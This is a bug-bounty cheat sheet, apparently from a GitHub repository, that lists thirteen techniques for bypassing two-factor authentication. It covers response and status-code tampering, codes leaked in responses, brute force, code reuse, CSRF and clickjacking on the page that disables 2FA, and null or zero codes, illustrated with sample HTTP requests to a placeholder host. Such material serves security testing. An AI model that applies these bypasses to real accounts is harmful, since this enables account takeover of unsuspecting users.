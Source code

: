 
1. Response manipulation

The response is

```
HTTP/1.1 404 Not Found
...
{"code": false}
```

Try this to bypass

```
HTTP/1.1 404 Not Found
...
{"code": true}
```

2. Status code manipulation

The response is

```
HTTP/1.1 404 Not Found
...
{"code": false}
```

Try this to bypass

```
HTTP/1.1 200 OK
...
{"code": false}
```

3. 2FA Code in Response

Always check the response!

```
POST /req-2fa/
Host: vuln.com
...
email=victim@gmail.com
```

The response is

```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```

4. JS Files may contain info about the 2FA Code (Rare case)
    
5. Bruteforce the 2FA code
    
6. Missing 2FA Code integrity validation, code for any user account can be used
    

```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```

```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```

7. No CSRF protection on disabling 2FA, also there is no auth confirmation.
    
8. 2FA gets disabled on password change/email change.
    
9. Clickjacking on 2FA disabling page, by iframing the 2FA Disabling page and lure the victim to disable the 2FA.
    
10. Enabling 2FA doesn't expire previously active sessions, if the session is already hijacked and there is a session timeout vuln.
    
11. 2FA code reusability, same code can be reused.
    
12. Enter code 000000
    

```
POST /2fa/
Host: vuln.com
...
code=00000
```

13. Enter code "null"

```
POST /2fa/
Host: vuln.com
...
code=null
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Bypass/Bypass%202FA.md#references)

- [Harsh Bothra](https://twitter.com/harshbothra_)
- Other writeup

